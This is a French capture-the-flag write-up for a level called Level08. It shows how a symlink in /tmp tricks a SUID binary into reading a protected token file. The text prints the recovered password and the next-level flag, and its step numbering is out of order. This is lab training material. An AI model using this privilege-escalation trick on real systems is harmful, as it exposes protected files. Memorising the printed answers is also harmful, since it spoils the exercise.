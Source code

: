 # Level08

implique un binaire avec le bit SUID activé et l'objectif est d'exploiter cette configuration pour accéder au contenu du fichier "token".

1) Pour tester le binaire level08, vous pouvez l'exécuter avec ou sans un nom de fichier en argument:
```bash
./level08
./level08 [file to read]
```

2) Si vous tentez de lire le fichier "token" directement avec le binaire level08, il vous refusera l'accès, comme le montre l'exemple :
```bash
./level08 token
You may not access 'token'
```

3) En examinant les permissions du répertoire, vous pouvez constater que le fichier "level08" a le bit SUID activé. Cela signifie que lorsque vous exécutez "level08", il s'exécute avec les droits de l'utilisateur propriétaire du fichier ("flag08" dans ce cas).
```bash
ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

4) Pour exploiter cette configuration, vous pouvez créer un lien symbolique du fichier "token" dans un répertoire où vous avez l'accès. Par exemple, créez un lien symbolique dans "/tmp" :
```bash
ln -s /home/user/level08/token /tmp/toto
```

6) Ensuite, exécutez le binaire level08 en lui passant le lien symbolique comme argument :
```bash
./level08 /tmp/toto
quif5eloekouj29ke0vouxean
```

5) Une fois que vous avez obtenu le contenu du fichier "token", vous pouvez l'utiliser pour accéder au compte "flag08" et récupérer le jeton du niveau suivant. Vous pouvez le faire en lançant une session en tant que "flag08" :
```bash
su flag08
```

8) Enfin, exécutez la commande "getflag" pour obtenir le jeton du niveau suivant :
```bash
getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
